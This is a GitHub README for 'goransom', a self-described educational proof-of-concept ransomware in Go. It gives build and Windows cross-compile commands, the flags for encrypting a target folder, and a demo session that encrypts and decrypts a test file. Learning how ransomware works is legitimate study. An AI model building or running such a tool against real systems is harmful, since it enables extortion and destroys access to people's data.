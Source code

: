 # goransom

<p align="center">
  <img alt="goransom" src="https://github.com/andpalmier/goransom/blob/master/thief_gopher.jpg?raw=true" />
  <p align="center">
    <a href="https://github.com/andpalmier/goransom/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/goransom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept for a simple ransomware written in Go. The purpose of this project is purely educative: I wrote `goransom` to get familiar with the language, this also means that the code is poorly written and organized.

**DO NOT USE THIS ON SYSTEMS WHERE YOU DON'T HAVE THE PERMISSION OF THE OWNER**

You can find additional details about this project in my blogpost [Proof of concept of a ransowmare in Go](https://andpalmier.github.io/posts/poc-goransom/).

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ make goransom
```

This will create a folder `build`, containing an executable called `goransom`. You can then run the executable with the following flags:
- `-target`, to specify a folder or a file to encrypt/decrypt. If it's a directory, all the files contained in the given folder will be encrypted/decrypted.
- `-secret`, to specify the secret which is used to derive the key for the encryption/decryption.
- `-decrypt`, to be specified if we want to decrypt a file or a folder.

If you are building it for Windows on Linux, use:

```
$ GOOS=windows GOARCH=386 go build -o goransom.exe goransom.go
```

But be careful, Windows defender does not like goransom:

![](windows_def.png)


### Example

```
$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME

$ ./goransom -secret supersecret -target testfolder
Operating on testfolder
Operating on testfolder/testfile

$ tree
.
├── goransom
└── testfolder
    └── testfile.locked

$ cat testfolder/testfile.locked
�C4�w��i�G⛘]+�~O(�@f1
                     �<
                       �0k><�ZlEV&yj��;)�[1m%

$ ./goransom -secret supersecret -target testfolder -decrypt
Operating on testfolder
Operating on testfolder/testfile.locked

$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME
```

